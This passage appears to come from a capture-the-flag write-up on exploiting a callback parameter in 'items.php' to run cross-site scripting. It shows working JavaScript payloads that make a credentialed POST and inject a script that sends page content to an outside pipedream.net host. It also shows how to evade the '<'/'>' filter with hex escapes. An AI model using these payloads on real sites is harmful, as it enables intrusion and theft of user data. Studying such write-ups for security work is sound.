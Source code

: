 It gets a bit nasty with all the nested quotes but luckily JavaScript has three different types of quotes: `""`, `''`, and ``` `` ```.

If we now try to run this (after URL-encoding it, passing it to `items.php`, URL-encoding again and passing the result to the search)
we will run into another problem:

`items.php` will respond with this:
```
callback param is too long!
```

Trying a few different callback lengths, we can easily find out that the callback can't be longer than `250` characters.

Let's shorten our callback up a bit:
```
x=stage2.href;
fetch(x,{method:"post",headers:{'Content-type':'multipart/form-data'},credentials:"include",body:`lang"><hr id=backgrounds lang="<script>location='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"><!--`});
location=x;
```

That should be less than `250` characters. But strangely, when we try it again, `items.php` still says it's too long.

Let's try shortening our callback to see at which point it works.

At some point we get a valid response again:

```
x=stage2.href; fetch(x,{method:"post",headers:{'Content-type':'multipart/form-data'},credentials:"include",body:`lang"FORBIDDEN_CHARFORBIDDEN_CHARhr id=backgrounds lang="FORBIDDEN_CHARscriptFORBIDDEN_CHARlocation='//enbdblkpmmbod.x.pipedream.net/' $(...
```

Interesting.

It seems that it doesn't like some characters and replaces them with `FORBIDDEN_CHAR`.
Taking a closer look we can see that it replaces `<` and `>`.

To avoid this we can just replace them with `\x3c` and `\x3e`. That's the hex representation of the characters.
In a JavaScript string, this is the same as writing the characters out directly but `items.php`, of course, doesn't get that.

The script is still shorter than `250` characters (`249` to be exact 😅) so everything should work now:
```javascript
x=stage2.href;
fetch(x,{method:"post",headers:{'Content-type':'multipart/form-data'},credentials:"include",body:`lang"\x3e\x3chr id=backgrounds lang="\x3cscript\x3elocation='//enbdblkpmmbod.x.pipedream.net/'+$('b').text()"\x3e\x3c!--`});
location=x;
```

Actually, if we needed to, we could still make the script even shorter.
